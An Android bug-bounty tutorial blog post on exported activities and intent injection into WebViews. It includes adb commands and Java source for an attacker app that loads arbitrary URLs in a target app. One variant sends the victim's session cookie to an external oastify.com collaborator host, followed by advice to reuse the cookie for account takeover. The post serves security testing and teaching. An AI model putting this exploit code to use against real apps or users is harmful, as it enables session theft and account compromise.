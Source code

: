 ```yaml
---
title: One Approach towards Android Bug Bounty
author: nirajkharel
date: 2025-01-01 14:10:00 +0800
categories: [Mobile Pentesting, Android]
tags: [Mobile Pentesting, Android]
render_with_liquid: false
---
```



Last month, I explored bug bounties on Android applications and discovered a couple of issues related to Exported Activities and Intent Injections. These vulnerabilities were either unreported or reported in a way that underestimated their impact, categorizing them as low severity or informational.

In this blog, I aim to share insights into different methods for identifying such issues and strategies to escalate their impact to High or Critical severity. Please note that this is not the only approach but rather one specific type of vulnerability I focused on during my tests.

So What is Exported Activity? Intent Injection? Insecure WebView? Account Takeover?

I am not going to describe what an activity is but Android application is designed to be sandboxed and so its activities. Unless exported, activities of one particular application cannot be accessed by any other application on the device.

Activities are not exported by default, but there are multiple ways for an activity to be exported. One being **"exported=true"** and another being **"\<intent-filter\>"**. On the activity where intent filter has been defined, its exported by default unless the **"exported=false"** has been defined. Most of the times, the static analyser or tools that we use only covers the **"exported=true"** part and you might want to check the intent filter manually while you go through the Android Manifest file.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-1.png">

One approach of identifying exported activities is manual as defined earlier and next one can be through a drozer through the drozer.

Observe that two activities are exported on the application.

```bash
dz> run app.activity.info -a com.root3d.intentinjection
Attempting to run shell module
Package: com.root3d.intentinjection
  com.root3d.intentinjection.MainActivity
    Permission: null
  com.root3d.intentinjection.PrivacyPolicy
    Permission: null
```

So what does an exported activity means? It means that it can be accessed by any other application. Is it vulnerable right now? may be, may not be. But if you reported this as an issue, it will probably led to either informative/NA or Low if you are lucky.

So how can you leverage the impact for this? Navigate to the corresponding activity, on this case, **PrivacyPolicy**. 
<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-2.png">

Here comes the intent injection to open redirection part. But how?

As you read about the open redirection on the mobile application, it surely means that its an webapplication/website based attack or vulnerability. How how can this be possible on the mobile application. This means we need to check if the web URL or the web application has been referenced or integrated into the mobile application which is done through the almighty **webview**. So always look if the webview has been implemented. You can either search for the webview keyword or see if it has been initialised as we see on the **highlight-1**.

```java
private WebView webview;

// Or,
webview.loadUrl();
```

Lets skip the highlight-2 and highlight-3 for a timebeing and jump into 4 and 6. There you can see that it checks for the extra string parameter. What does **intent.getStringExtra** means? It means while the activity is called or triggered, it also looks if any other extra parameters or value has been passed on it in-exact the parameter named as **privacy-url**. 

The highlight-6 shows that it checks if the privacy-url is provided while calling the activity and if that contains any string character or not. If yes, it calls the **webview.loadUrl()** function with the **privacy-url** as the parameter. Why does it do so? Does it happens often? It might not be simple as it has been shown on the vulnerable application but there would be many instances on the activity where it requires extra parameter, generally while loading the privacy policies, terms and conditions and oauth-url as well.

So we know that it takes extra parameter and loads the webview as per we pass it as an intent. So why not load the arbitrary URL into it.

Use the below ADB command:

But what happens if you directly trigger the activity without passing any extra parameters? It will work as intended and would open the legitimate URL.
```
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.PrivacyPolicy
```

Execute the same above command with the extra string as mentioned below and see if you can load arbitrary URL
```
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.PrivacyPolicy --es privacy-url "https://google.com"
```

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-3.png">


See now you have successfully performed open redirection on the mobile application. But what happends when you submit this issue for your bounties. Nothing much as adb can access any private activity on the mobile application and also you have rooted your device right?

Example, we do have additional one activity called **HomeActivitycom.root3d.intentinjection.HomeActivity** but it has not been exported. Let's try if we can load the arbitrary URL into that activity using adb.

```bash
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.HomeActivity --es blog-url "https://google.com"
```

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-4.png">

Was that vulnerable? May be, you can report it mentioning that the URL validation has not been performed. Will you get the bounties? I would have given you, but they, no.

You need to do proper exploitation inorder to be it a valid and you cannot exploit this issue until there is something like Intent Redirection vulnerability.

So never just collect the activity and execute the adb command, see, analyse and then only report if that is exported.

Lets forget this HomeActivity part and focus on the PrivacyPolicy one. So before your andreline rush to submit the report, we need to be able to explain them that any other application would be able to load the URL into their application. Until then our issue would not be applicable as they would not accept the issue if you need a physical access into the device and for adb to be able to execute, you would need.

So, lets develop an android application i.e. attacker application. What does this below code do?

Its a simple application which opens the vulnerable activity and will send an extra intent as privacy-url to load "https://google.com" into that activity.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("com.root3d.intentinjection","com.root3d.intentinjection.PrivacyPolicy");

        intent.putExtra("privacy-url","https://google.com");
        intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);

        startActivity(intent);
    }

}
```

You can create an empty activity on your Android studion and paste this code. Replace the package name and activity name with the vulnerable one and pass the accepted parameter. You should be able to perform an open redirection to the vulnerable app through this app once executed.

The code block `intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);` might be needed sometime as while executing the attacker application, instead of loading the arbitrary URL into the vulnerable application, sometimes it loads to the current attacker application. So it launches the activity in a new task separate from the current task.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-5.png">  


Until now they would treat this issue as Low or Medium because its just an open redirection. 

It might be the good idea to report until now if you have no option to login or register into the application. Example if the application needs a valid government document of hulululu country. 

But if incase you can login or register into the application and it any of the activity is vulnerable to intent injection to open redirection, you can probably exfiltrate the session cookie of the user through the vulnerable application. Why? Because it sends a GET request to the arbitrary URL with the session cookie on the request header and believe me, most of the application do. To restrict the application to send the session cookie along it needs to load the URL using this method **loadUrlWithoutCookies(view, url);** which is hardly implemented on the application.

So instead of loading your fancy portfolio into the webview. You can develop the android application as per below to send the session cookie into your controlled domain. For example Burp Collaborator.

This code is similar as above but just the modification on the URL.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("com.root3d.intentinjection","com.root3d.intentinjection.PrivacyPolicy");

        intent.putExtra("privacy-url","https://f1hsbzbz62ixdg783ucnuwu2jtpkda1z.oastify.com");
        intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);

        startActivity(intent);
    }

}
```

Now the attacker application that you have created can exfiltrate the session cookie and then you can now use that session cookie as a victim user.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-6.png">

But do not just end here because you haven't done anything with the session cookie, go through the application source code, identify the API endpoints like for example **/delete/users** **/update/profile** **/update/email** **/api/profile** and try to provide an impact on the Confidentialy, Integrity and Availability as well. Check if you can get the profile details, check if you can modify the user details like email address, mobile numbers, and also check if you can delete the current user by using the session cookie.

On this way you can have the maximum impact on the application.

Please note that the blogs has been paraphrased using ChatGPT. Why? I would like to write another blog on the time that I adjust my grammar.